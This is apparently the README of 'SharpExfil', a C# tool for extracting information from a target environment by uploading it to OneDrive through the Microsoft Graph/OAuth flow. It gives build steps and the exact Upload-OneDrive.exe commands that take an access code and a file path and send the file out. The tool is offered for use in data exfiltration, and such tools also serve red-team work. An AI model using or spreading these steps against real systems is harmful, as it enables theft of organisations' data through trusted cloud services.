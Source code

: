 # SharpExfil
C# executables to extract information from target environment using OneDrive API.

## OneDrive API instructions
you can find the steps to create OneDrive keys [here](./OneDrive_API_Key.md)

## Build Instructions

Add your OneDrive API keys to the 'API_Keys.cs' file in project.

Then build project from visual studio

## Running binary

1. Goto the url -  
	`https://login.microsoftonline.com/common/oauth2/v2.0/authorize?client_id=<Client_ID>&scope=<Scopes>&response_type=code&redirect_uri=<Redirect_URI>`  
	Replace Client_id with Application ID of the registered application.  
	Make sure redirect_uri string has the same value from registration.  

2. The new URL should contain the access_token  
	<img src="./img/token.png"/>

3. Run executable with generated code token  
	`For Files smaller than 4mb:  
		Upload-OneDrive.exe -size=small -code=<Code_Token> -file=<Path_To_Upload_File>  
	For Files bigger than 4mb:  
		Upload-OneDrive.exe -size=large -code=<Code_Token> -file=<Path_To_Upload_File>`
	<img src="./img/command.png"/>
	Pass all arguments in the same order